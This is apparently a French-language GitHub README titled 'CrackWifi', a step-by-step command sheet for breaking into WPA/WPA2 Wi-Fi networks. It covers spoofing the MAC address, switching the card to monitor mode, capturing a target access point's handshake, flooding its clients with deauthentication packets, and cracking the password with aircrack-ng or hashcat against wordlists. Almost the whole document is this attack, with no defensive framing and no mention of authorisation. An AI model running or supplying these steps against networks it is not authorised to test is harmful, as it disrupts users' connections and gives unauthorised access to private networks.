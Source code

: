 # CrackWifi

airodump-ng

aireplay-ng 

aircrack-ng 

hashcat

iwconfig

# desactiver carte wifi pour changer l'adresse MAC 
ifconfig wlan0 down 

# changement d'adresse MAC

macchanger –m XX:XX:XX:XX:XX:XX wlan0

# reactiver carte wifi
ifconfig wlan0 up

# passer la carte en mode monitor
iwconfig wlan0 mode monitor 

airmong-ng start wlan0

# scanner réseaux disponibles 
airodump-ng -–encrypt XX wlan0

# ecouter et desauthentifier dans 2 terminaux  
airodump-ng -w hack1 -c 2 --bssid xx:xx:xx:xx:xx:xx wlan0mon

-c 2 = channel 

hack1 = les fichiers qui vont être créés

xx:xx:xx:xx:xx:xx = mac de la borne cible

# desauthentifier 
aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan0mon

xx:xx:xx:xx:xx:xx = mac de la borne cible

# crack mot de passe

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt....

# Bonus possible d'utiliser hashcat mais l'extension cap2hccapx est nécessaire:

present dans le paquet hashcatutils

conversion du fichier cap en hccapx pour hashcat

cap2hccapx info.cap WPA2_capture.hccapx

puis execute hashcat en spécifiant le "mask" de chiffrement et enregistrement dans un fichier dans l'exemple WPA2_resolved

hashcat -m 2500 -a 6 -O -o WPA2_resolved.txt WPA2_capture.hccapx D:\Dictionnaires\ALL\dico_1.txt D:\Dictionnaires\ALL\dico_2.txt
